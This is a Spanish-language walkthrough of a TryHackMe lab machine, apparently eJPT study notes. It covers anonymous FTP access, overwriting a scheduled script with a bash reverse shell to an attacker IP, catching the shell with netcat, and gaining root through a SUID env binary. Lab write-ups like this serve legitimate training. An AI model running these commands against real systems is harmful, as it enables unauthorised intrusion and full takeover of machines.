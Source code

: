 
----
- TAG: #Práctica #Exploración #FTP #Acceso #Anónimo #Escalada-De-Privilegios #SUID 
----
En muchas ocasiones podemos encontrarnos con el puerto 21 FTP con el login como anonymous habilitado, lo cual significa que podemos acceder dentro del servidor sin proporcionar credenciales.

Este es un tema que suele caer normalmente en la eJPT, asi que les dejo el enlace de la máquina:

- [Máquina vulnerable Anonymous](https://tryhackme.com/r/room/anonymous)
	- Nos conectamos a la vpn que nos da TryHackMe
	- Arrancamos la máquina en la plataforma

---

### Máquina atacante Kali linux

Desde nuestra máquina **Kali Linux** debemos hacer el procedimiento correcto

Primero saber si tenemos conectividad con la máquina con una traza icmp

```bash
ping -c 1 1.2.3.4
```

Con esto ya sabremos a que tipo de sistema operativo nos estamos enfrentando, en este caso con una máquina Linux 

Ahora realizamos un reconocimiento de puertos abiertos con **Nmap**

```bash
nmap -p- --open -sS -sC -sV --min-rate=5000 -n -vvv -Pn 1.2.3.4 -oN escaneo
```

Al terminar el escaneo nos encontraremos con el puerto 21 ftp abierto, que nos indica que nos podemos logear como usuario **anonymous** y sin credencial:

![[ftp_anonymous.png]]

Así que para logearnos deberíamos hacer lo siguiente por el protocolo ftp

```bash
ftp 1.2.3.4
```

Una vez dentro nos encontraremos con un direcotorio llamada `scripts`, si ingresamos al directorio nos encontraremos con unos archivos, si desean revisar los archivos deben enviarselo a su directorio actual de trabajo en linux:

```bash
get clean.sh 
```

Y posterior a esto revisar el contendio de los archivos :

```bash
cat clean.sh
```

Revisando el archivo nos damos cuenta que es un script en bash que se ejecuta de forma automática cada cierto tiempo dentro de la máquina.

Dado esto podemos subir un archivo malicioso que se haga pasar por el archivo `clean.sh`, para ello primero debemos eliminar el archivo y luego subir nuestro archivo malicioso.

 Editamos el archivo y creamos nuestra revershell:
```bash
nano clean.sh
```

Script:

```bash
#!/bin/bash

bash -i >& /dev/tcp/1.2.3.4/443 0>&1 
```

Recuerden que si estamos conectados a la vpn de **TryHackMe** deben colocar la ip de la vpn para poder recibir la conexión 

Ahora con el archivo malicioso creado, nos volvemos a logear al protocolo ssh y subimos el archivo para que pueda reemplazar al que ya existe:

```bash
put clean.sh 
```

Una vez subido el archivo malicioso nos abrimos otra terminal para ponernos a la escucha por el puerto que le hemos indicado en el script para recibir la revershell

```bash
nc -nlvp 443
```

Y al pasar unos segundos deberíamos recibir la conexión ya que se ejecuta cierto tiempo este escript

----

Una vez dentro lo primero que deberíamos hacer es un tratamiento de la `tty`

```bash
script /dev/null -c bash
```

Ahora ponemos en segundo plano la sesión que tenemos con 

```bash
Ctrl + Z
```

Ahora reseteamos la sesión con 

```bash
stty raw -echo; fg
```

A continuación de aplastar el comando debemos inrgesar 

```bash
reset xterm
```

Y ahora exportamos las variables 

```bash
export TERM=xterm
export SHELL=bash
```

Una vez hecho el tratamiento de la `tty` debemos empezar a enumerar para poder escalar privilegios

Tenemos dos opciones

1. 
```bash
sudo -l 
```

Si nos les aparece ningún permiso, intentamos con la segunda opción 

2. 
```bash
find / -perm -4000 2>/dev/null
```

Una vez terminado la enumeración nos mostrara algunos binarios que pueden ser vulnerados, Pero en realidad el que más llama la atención es el binario `/env` que por lo general suele estar expuesto a ser vulnerado si o si.

En la página que siempre les recomiendo **GTFOBins** pueden encontrar la información para poder escalar estos privilegios.

El que a mi me sirvió para la escalada de privilegios fue:

```bash
/usr/bin/env /bin/sh -p 
```

Y listo amig@s con esto hemos vulnerado totalmente la máquina **Anonymous**